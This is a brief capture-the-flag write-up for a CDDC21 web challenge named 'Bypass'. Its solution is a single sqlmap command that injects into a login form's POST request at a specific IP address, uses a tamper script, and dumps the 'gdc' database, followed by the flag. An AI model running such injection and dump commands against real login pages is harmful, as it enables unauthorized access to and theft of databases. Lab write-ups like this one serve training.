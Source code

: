 # Bypass

## CATEGORY

Web Vulnerabilities

## Challenge

Finally we have found an interesting web server used by the GDC, but I don't have credentials so I can't bypass the login page. I heard that you are the master of injections. You

300 points

## Hint(s)

None used

## Solution

We brute forced the post request with sqlmap, which was surprisingly enough for us to obtain the flag:

    sqlmap -u http://122.248.246.76/F7OYO88E/ --data="username=admin&password=admin&sub=&remember=on" --method POST --dbs --batch --tamper=space2comment -D gdc --dump

## Flag

    CDDC21{-Inject_Me-}
